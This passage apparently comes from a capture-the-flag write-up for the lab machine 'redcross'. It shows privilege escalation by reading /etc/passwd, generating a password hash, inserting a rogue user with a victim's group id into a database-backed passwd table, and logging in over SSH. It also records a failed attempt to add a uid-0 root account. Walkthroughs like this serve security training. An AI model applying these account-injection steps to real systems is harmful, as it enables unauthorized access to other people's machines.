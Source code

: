 The `passwd_table` has the following structure:

```

unix=> select * from passwd_table;
 username  |               passwd               | uid  | gid  | gecos |    homedir     |   shell
-----------+------------------------------------+------+------+-------+----------------+-----------
 tricia    | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
(1 row)

```

Additionally, different users for the database can add different parts. For example, unixusrmgr can add users (as seen in the php code and I’ll show more times below), but can’t set the user id:

```

unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
ERROR:  permission denied for relation passwd_table

```

#### Add User penel0xdf

I’ll add a user with group id that matches penelope, following the model from `actions.php`. I remember the group id is 1000 from `/etc/passwd`:

```

www-data@redcross:/var/www/html/admin/pages$ grep penelope /etc/passwd
penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash

```

I’ll create a password:

```

www-data@redcross:/home/penelope$ openssl passwd -1 0xdf
$1$wV7CPbj9$59kAklYgquXe5TuJYIT591

```

Now I’ll add the user with penelope’s group:

```

unix=> insert into passwd_table (username, passwd, gid, homedir) values ('penel0xdf', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 1000, '/home/penelope');
INSERT 0 1

```

Now I can ssh in:

```

root@kali# ssh penel0xdf@10.10.10.113
penel0xdf@10.10.10.113's password: 
Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

penel0xdf@redcross:~$ id
uid=2020(penel0xdf) gid=1000(penelope) groups=1000(penelope)
```